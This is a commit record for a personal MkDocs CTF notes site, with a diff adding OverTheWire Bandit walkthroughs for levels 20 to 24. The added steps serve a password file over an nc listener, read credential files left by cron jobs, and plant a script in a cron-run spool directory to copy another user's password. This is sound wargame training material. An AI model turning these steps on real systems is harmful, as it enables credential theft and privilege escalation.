

Before and after one commit to harshit-jain52/ctf, an MkDocs documentation site: the page built from docs/OverTheWire/Bandit.md, in a window 1280 px wide and 1400 px high, scrolled down 3892 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4302 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
type fix; bandit 24

````diff
--- a/docs/OverTheWire/Bandit.md
+++ b/docs/OverTheWire/Bandit.md
@@ -199,3 +199,109 @@ ssh bandit18@bandit.labs.overthewire.org -p 2220 "cat readme"
 ```shell
 ./bandit20-do cat /etc/bandit_pass/bandit20
 ```
+
+## level 20 -> level 21
+
+```shell
+cat /etc/bandit_pass/bandit20 | nc -l -p 12345
+```
+
+```shell
+./suconnect 12345
+```
+
+## level 21 -> level 22
+
+```shell
+bandit21@bandit:~$ cd /etc/cron.d/
+
+bandit21@bandit:/etc/cron.d$ ls
+behemoth4_cleanup  cronjob_bandit23  leviathan5_cleanup    sysstat
+clean_tmp          cronjob_bandit24  manpage3_resetpw_job
+cronjob_bandit22   e2scrub_all       otw-tmp-dir
+
+bandit21@bandit:/etc/cron.d$ cat cronjob_bandit22
+@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
+* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
+
+bandit21@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh
+#!/bin/bash
+chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
+cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
+
+bandit21@bandit:/etc/cron.d$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
+```
+
+## level 22 -> level 23
+
+```shell
+bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
+@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
+* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
+
+bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
+#!/bin/bash
+myname=$(whoami)
+mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
+echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
+cat /etc/bandit_pass/$myname > /tmp/$mytarget
+
+bandit22@bandit:~$ whoami
+bandit22
+
+bandit22@bandit:~$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
+8ca319486bfbbc3663ea0fbe81326349
+
+bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
+```
+
+## level 23 -> 24
+
+```shell
+bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
+@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
+* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
+```
+
+```shell
+bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
+#!/bin/bash
+
+myname=$(whoami)
+
+cd /var/spool/$myname/foo
+echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
+for i in * .*;
+do
+    if [ "$i" != "." -a "$i" != ".." ];
+    then
+        echo "Handling $i"
+        owner="$(stat --format "%U" ./$i)"
+        if [ "${owner}" = "bandit23" ]; then
+            timeout -s 9 60 ./$i
+        fi
+        rm -f ./$i
+    fi
+done
+```
+
+```shell
+bandit23@bandit:~$ mktemp -d
+/tmp/tmp.OAoC8cNtjQ
+
+bandit23@bandit:~$ cd /tmp/tmp.OAoC8cNtjQ
+
+bandit23@bandit:/tmp/tmp.OAoC8cNtjQ$ touch pass.txt
+
+bandit23@bandit:/tmp/tmp.OAoC8cNtjQ$ vi script.sh
+
+bandit23@bandit:/tmp/tmp.OAoC8cNtjQ$ cat script.sh
+#!/bin/bash
+cat /etc/bandit_pass/bandit24 > /tmp/tmp.OAoC8cNtjQ/pass.txt
+
+bandit23@bandit:/tmp/tmp.OAoC8cNtjQ$ chmod 777 -R /tmp/tmp.OAoC8cNtjQ
+
+bandit23@bandit:/tmp/tmp.OAoC8cNtjQ$ cp script.sh /var/spool/bandit24/foo/
+```
+
+After a minute or so, password will be written into `pass.txt`
````
Also changed, not shown: docs/TFC CTF 2025/Web/KISSFIXESS.md (+1 -1 lines).
